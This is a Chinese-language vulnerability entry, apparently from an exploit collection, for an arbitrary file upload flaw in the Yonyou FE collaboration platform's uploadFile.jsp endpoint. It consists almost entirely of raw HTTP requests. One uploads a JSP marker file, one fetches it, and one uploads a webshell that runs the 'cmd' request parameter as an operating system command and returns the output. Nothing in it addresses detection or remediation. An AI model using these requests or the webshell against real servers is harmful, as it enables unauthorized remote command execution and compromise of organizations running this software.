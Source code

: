   
漏洞名称：  
用友FE协同平台存在文件上传  
  
漏洞描述：  
```
POST /common/uploadFile.jsp?action=save&savePath=/images/upload/&fileName=123.jpg&title1=%C9%CF%B4%AB%CE%C4%BC%FE&title2=%D1%A1%D4%F1%CE%C4%BC%FE&allowsize=null&extName=.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.1018.84 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary123456789


------WebKitFormBoundary123456789
Content-Disposition: form-data; name="accessory"; filename="123.jsp"
Content-Type: application/octet-stream

<%
 out.println("e165421110ba03099a1c0393373c5b43");
new java.io.File(application.getRealPath(request.getServletPath())).delete();
%>
------WebKitFormBoundary123456789--

```  
  
访问上传后的文件（GET）  
```
GET /images/upload/123.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.2331.38 Safari/537.36

```  
  
漏洞利用请求（上传 WebShell + 执行命令）  
```
POST /common/uploadFile.jsp?action=save&savePath=/images/upload/&fileName=123.jpg&title1=%C9%CF%B4%AB%CE%C4%BC%FE&title2=%D1%A1%D4%F1%CE%C4%BC%FE&allowsize=null&extName=.jsp HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.1018.84 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary123456789


------WebKitFormBoundary123456789
Content-Disposition: form-data; name="accessory"; filename="123.jsp"
Content-Type: application/octet-stream

<%
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
int a = -1;byte[] b = new byte[2048];
while((a=in.read(b))!=-1){out.println(new String(b));}
new java.io.File(application.getRealPath(request.getServletPath())).delete();
%>
------WebKitFormBoundary123456789--

```  
  